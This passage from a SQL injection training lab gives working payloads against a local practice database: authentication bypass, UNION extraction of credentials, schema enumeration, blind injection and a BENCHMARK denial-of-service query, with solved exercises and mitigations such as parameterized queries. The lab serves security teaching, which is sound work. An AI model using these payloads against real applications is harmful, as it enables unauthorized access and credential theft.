SELECT * FROM users WHERE username = 'john_doe' AND password = 'pass123'
```


### Step 2: Test Authentication Bypass

**Attack Payload:**

- Username: `admin' --`
- Password: `anything`

The resulting query becomes:

```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'anything'
```

The `--` comments out the rest of the query, bypassing the password check.

**Try it yourself:**

```sql
-- Simulate the injection
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'anything';
```


---

## Exercise 3: Perform SQL Injection Attacks

### Attack 1: Authentication Bypass

**Scenario:** Bypass the login page to access the application without valid credentials.

**Injection Payloads:**

| Payload                  | Effect                       |
| :----------------------- | :--------------------------- |
| `' OR '1'='1`          | Always true condition        |
| `admin' --`            | Comment out password check   |
| `' OR 1=1 --`          | Return all users             |
| `admin' OR '1'='1' --` | Admin login with always true |

**Test the injection:**

```sql
-- This query would return the admin user regardless of password
SELECT * FROM users WHERE username = 'admin' OR '1'='1' -- ' AND password = 'anything';
```


### Attack 2: Extract All Users

**Scenario:** Retrieve all usernames and passwords from the users table.

**Injection Payload:**

```
' OR 1=1 UNION SELECT user_id, username, password, email, role FROM users -- 
```

**Test the injection:**

```sql
-- Simulated vulnerable query with UNION injection
SELECT * FROM products WHERE product_id = '1' UNION SELECT user_id, username, password, email, role FROM users -- ';
```

### Attack 3: Extract Database Schema

**Scenario:** Retrieve table names from the database.

**Injection Payload:**

```
' UNION SELECT table_name, NULL, NULL, NULL, NULL FROM information_schema.tables -- 
```

**Test the injection:**

```sql
-- Extract all table names from the database
SELECT * FROM products WHERE product_id = '1' UNION SELECT table_name, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = 'vulnerable_lab' -- ';
```

### Attack 4: Extract Column Names

**Scenario:** Retrieve column names from a specific table.

**Injection Payload:**

```
' UNION SELECT column_name, NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name = 'users' -- 
```

### Attack 5: Time-Based Blind Injection

**Scenario:** Use time delays to infer information when no data is returned.

**Injection Payload:**

```
' OR IF(1=1, SLEEP(5), 0) -- 
```

**Test the injection:**

```sql
-- This will delay for 5 seconds if the condition is true
SELECT * FROM users WHERE username = 'admin' OR IF(1=1, SLEEP(5), 0) -- ';
```

### Attack 6: Boolean-Based Blind Injection

**Scenario:** Infer data by observing true/false responses.

**Injection Payload:**

```
' AND SUBSTRING(username,1,1) = 'a' -- 
```

**Test the injection:**

```sql
-- Returns results only if the first character of username is 'a'
SELECT * FROM users WHERE username = 'admin' AND SUBSTRING(username,1,1) = 'a' -- ';
```

### Attack 7: Denial of Service (Heavy Query)

**Scenario:** Execute resource-intensive queries to cause denial of service.

**Injection Payload:**

```
' OR BENCHMARK(10000000, MD5('test')) -- 
```

---

## Exercise 4: Assess the Impact

### Data Breach Impact

Using the UNION injection attack, an attacker could extract:

| Data Type                      | Example                | Impact               |
| :----------------------------- | :--------------------- | :------------------- |
| **Credentials**          | usernames, passwords   | Account takeover     |
| **Personal Information** | email addresses, names | Privacy violation    |
| **Role Information**     | admin, user, manager   | Privilege escalation |

### Database Compromise Impact

| Attack Type                     | Consequence                |
| :------------------------------ | :------------------------- |
| **Data Extraction**       | Loss of confidentiality    |
| **Data Modification**     | Loss of integrity          |
| **Data Deletion**         | Loss of availability       |
| **Authentication Bypass** | Unauthorized access        |
| **Privilege Escalation**  | Complete system compromise |

---

## Exercise 5: Mitigate SQL Injection Risks

### Mitigation 1: Use Parameterized Queries (Prepared Statements)

**Secure code example (PHP with MySQLi):**

```php
// SECURE - Using parameterized queries
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();
```

**Secure code example (Python with MySQL Connector):**

```python
# SECURE - Using parameterized queries
cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
```

### Mitigation 2: Input Validation and Whitelisting

```php
// Validate username format (alphanumeric only)
if (!preg_match('/^[a-zA-Z0-9_]+$/', $username)) {
    die("Invalid username format");
}
```

### Mitigation 3: Use Stored Procedures

```sql
CREATE PROCEDURE AuthenticateUser(IN p_username VARCHAR(50), IN p_password VARCHAR(100))
BEGIN
    SELECT * FROM users WHERE username = p_username AND password = p_password;
END
```

### Mitigation 4: Least Privilege Principle

```sql
-- Create a limited user for the application
CREATE USER 'app_user'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT, INSERT ON vulnerable_lab.* TO 'app_user'@'localhost';
-- Do NOT grant DROP, DELETE, or ALTER unless absolutely necessary
```

### Mitigation 5: Proper Error Handling

```php
// Don't expose database errors to users
try {
    $result = mysqli_query($conn, $query);
} catch (Exception $e) {
    // Log the error internally
    error_log($e->getMessage());
    // Show generic error message to user
    die("An error occurred. Please try again later.");
}
```

### Mitigation 6: Web Application Firewall (WAF)

Deploy a WAF to detect and block SQL injection attempts:

- Blocks known attack patterns
- Rate limits suspicious requests
- Logs attack attempts for analysis

---

## Practice Exercises

### Exercise 1: Authentication Bypass

**Scenario:** A login page uses the following vulnerable query:

```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password'
```

**Task:** Write an injection payload that logs in as the first user in the database without knowing any credentials.

<details>
<summary>✅ Solution</summary>

**Payload:** `' OR '1'='1' --`

**Resulting Query:**

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' -- ' AND password = ''
```

This returns all users, and the application typically takes the first one.

</details>

---

### Exercise 2: Extract Data

**Scenario:** A product search page uses:

```sql
SELECT * FROM products WHERE product_name LIKE '%$search%'
```

**Task:** Write an injection payload to extract all usernames and passwords from the users table.

<details>
<summary>✅ Solution</summary>

**Payload:** `' UNION SELECT user_id, username, password, email, role FROM users -- `

**Resulting Query:**

```sql
SELECT * FROM products WHERE product_name LIKE '%' UNION SELECT user_id, username, password, email, role FROM users -- %'
```

</details>

---

### Exercise 3: Blind SQL Injection

**Scenario:** An application returns "User exists" or "User not found" but no other data.

**Task:** Write a payload to determine if the admin user's password starts with 'a'.

<details>
<summary>✅ Solution</summary>

**Payload:** `admin' AND SUBSTRING(password,1,1) = 'a' -- `

If "User exists" is returned, the condition is true and the password starts with 'a'.

</details>

---

## Lab Completion Checklist

| Task                                     | Completed |
| :--------------------------------------- | :-------- |
| **Environment Setup**              |           |
| Created MySQL database instance          | ☐        |
| Created phpMyAdmin instance              | ☐        |
| Opened SQL interface                     | ☐        |
| **Database Creation**              |           |
| Created vulnerable_lab database          | ☐        |
| Created users table                      | ☐        |
| Created products table                   | ☐        |
| Inserted sample data                     | ☐        |
| **SQL Injection Attacks**          |           |
| Performed authentication bypass          | ☐        |
| Extracted all users with UNION injection | ☐        |
| Extracted database schema                | ☐        |
| Extracted column names                   | ☐        |
| Performed time-based blind injection     | ☐        |
| Performed boolean-based blind injection  | ☐        |
| **Mitigation**                     |           |
| Implemented parameterized query example  | ☐        |
| Implemented input validation             | ☐        |
| Created limited database user            | ☐        |
| Implemented proper error handling        | ☐        |

---

## Screenshot Checklist

| Screenshot            | File Name                      | Description                        |
| :-------------------- | :----------------------------- | :--------------------------------- |
| Database Creation     | `SQLi_Database_Creation.png` | vulnerable_lab database created    |
| Authentication Bypass | `SQLi_Auth_Bypass.png`       | Login bypass successful            |
| Data Extraction       | `SQLi_Data_Extraction.png`   | UNION injection extracting data    |
| Mitigation Code       | `SQLi_Mitigation.png`        | Parameterized query implementation |

---

## Summary Table of Injection Payloads

| Payload                 | Attack Type      | Purpose                        |
| :---------------------- | :--------------- | :----------------------------- |
| `' OR '1'='1`         | In-band          | Bypass authentication          |
| `' OR 1=1 --`         | In-band          | Return all rows                |
| `' UNION SELECT ...`  | Union-based      | Extract data from other tables |
| `' OR SLEEP(5) --`    | Time-based blind | Infer data via time delay      |
| `' AND 1=1 --`        | Boolean-based    | Test true condition            |
| `' AND 1=2 --`        | Boolean-based    | Test false condition           |
| `' OR BENCHMARK(...)` | DoS              | Resource exhaustion            |

---

## Key Takeaways

| Concept                      | Key Point                                                      |
| :--------------------------- | :------------------------------------------------------------- |
| **SQL Injection**      | One of the most critical web application vulnerabilities       |
| **Root Cause**         | Unsanitized user input concatenated into SQL queries           |
| **Primary Mitigation** | Always use parameterized queries/prepared statements           |
| **Defense in Depth**   | Combine multiple protections: validation, WAF, least privilege |
| **Impact**             | Can lead to complete database compromise                       |
| **Detection**          | Use WAFs, input validation, and regular security testing       |

---

## Congratulations!

You have successfully completed the **Exploiting SQL Injection Vulnerabilities** lab. You now understand:

- How to identify SQL injection vulnerabilities in web applications
- Various types of SQL injection attacks and how to execute them
- The potential impact of successful SQL injection attacks
- Best practices and techniques to mitigate SQL injection risks

**Remember:** This knowledge should only be used to secure applications, not to exploit them. Always practice responsible disclosure and obtain proper authorization before testing any system.

---

*Last updated: April 2026*
